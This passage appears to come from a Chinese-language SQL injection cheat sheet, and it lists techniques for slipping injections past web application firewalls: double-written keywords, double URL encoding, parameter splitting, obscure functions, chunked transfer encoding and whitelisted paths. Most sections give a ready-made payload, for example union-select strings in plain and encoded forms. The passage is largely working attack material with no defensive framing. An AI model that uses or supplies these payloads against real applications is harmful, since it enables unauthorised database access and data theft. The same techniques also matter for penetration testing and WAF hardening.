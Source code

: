 

### 2.14 双写绕过

```sql
uniunionon seleselectct
```



### 2.15 二次编码绕过

`-1 union select 1,2,3,4# `

第一次编码：

`%2d%31%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%23 `

第二次编码：

`%25%32%64%25%33%31%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%33%32%25%32%63%25%33%33%25%32%63%25%33%34%25%32%33`



### 2.16 参数拆分绕过

对于a=[input1]&b=[input2] 可以将参数 a 和 b 拼接在 SQL 语句中，但是过滤了`union select`，可以使用参数拆分

```sql
-1'union/*&username=*/select 1,user(),3,4--+
```



### 2.17 生僻函数绕过

```sql
select polygon((select * from (select * from (select @@version) f) x)); # polygon()替换updatexml()
```



### 2.18 分块传输绕过

​	如果在 http 的消息头里 Transfer-Encoding 为 chunked，那么就是使用chunk编码方式。

​	接下来会发送数量未知的块，每一个块的开头都有一个十六进制的数,表明这个块的大小，然后接 CRLF("\r\n")。然后是数据本身，数据结束后，还会有CRLF("\r\n")两个字符。有一些实现中，块大小的十六进制数和CRLF 之间可以有空格，最后一块大小为0，表示数据发送结束。



### 2.19 信任白名单绕过

WAF会自带一些文件白名单，可以利用白名单绕过

```sql
/phpmyadmin?name=%27%20union%20select%201,user()--+&submit=1
```


